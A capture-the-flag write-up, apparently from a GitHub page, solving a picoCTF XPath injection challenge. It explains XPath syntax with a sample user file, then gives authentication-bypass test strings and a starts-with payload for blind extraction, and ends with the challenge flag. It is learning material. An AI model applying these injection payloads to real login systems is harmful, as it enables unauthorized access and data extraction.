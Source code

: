 http://mercury.picoctf.net:16521/

The hints shows that it is about xpath.

Learning what is XPath:

https://matthung0807.blogspot.com/2017/12/xpath.html

https://zh.wikipedia.org/wiki/XPath

https://jiang-niao.github.io/2020/04/24/%E4%BB%8Ectf%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E4%B9%A0xpath%E6%B3%A8%E5%85%A5/




This document is talking about 'what is xpath, and how to use it'.
If you want to understand how to get the flag, try to read to code xpathctf.py

XPath Example:
```
<?xml version="1.0" encoding="UTF-8"?> 
<root>
  <users>
    <user>
      <id>1</id>
      <username>admin</username>
      <password type='md5'>e10adc3949ba59abbe56e057f20f883e</password>
    </user>
    <user>
      <id>2</id>
      <username>jiangniao</username>
      <password type='md5'>099ebea48ea9666a7da2177267983138</password>
    </user>
    <user>
      <id>3</id>
      <username>skbl</username>
      <password type='md5'>e995e9ba0c8ec5c9ce392b86bfece354</password>
    </user>
  </users>
</root>

```

The type of node is:

```
<?xml version="1.0" encoding="UTF-8"?>: processing-instruction node
<root>: root element node
<id>: element node
type='md5': attribute node
jiangniao: text node
```
How to use xpath? this is the sample:

```
/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']
``` 

If you want to list all of the text nodes, you can use wildcards "//\*", and [starts-with(text(),'a')] meas that checking there has a text node start from 'a' or not.

```
//*[starts-with(text(),'a')]
```

You can use this payload to test, is it have xpath vulnerability:

```
' or '1' or '
admin' or '1' or '
```


So, the final payload is :

```
' or //*[starts-with(text(),'a')] or 'a'='b
```

If you input this payload in username, the xpath search will like this:

```
/root/users/user[username/text()='' or //*[starts-with(text(),'a')] or 'a'='b' and password/text()='".$pwd."']
```

The priority of operator is:

<img width="300" alt="截圖 2022-03-09 下午2 57 50" src="https://user-images.githubusercontent.com/37798944/157388893-df93956d-ca48-44c7-a866-04e6ca6b198e.png">




First time run the xpathloop.py you can find all the nodes. But it needs lot of time. Maybe using multithreat is better....


<img width="1311" alt="截圖 2022-03-11 上午10 47 41" src="https://user-images.githubusercontent.com/37798944/157793080-641a75a1-6539-4e07-8ff4-3239e0910e85.png">


Here you got the part of FLAG "picoCTF{".
If edit the python file, let it start from "picoCTF{", you will get flag faster.
Run the xpathloop2.py, got the flag!

picoCTF{h0p3fully_u_t0ok_th3_r1ght_xp4th_28cb0023}



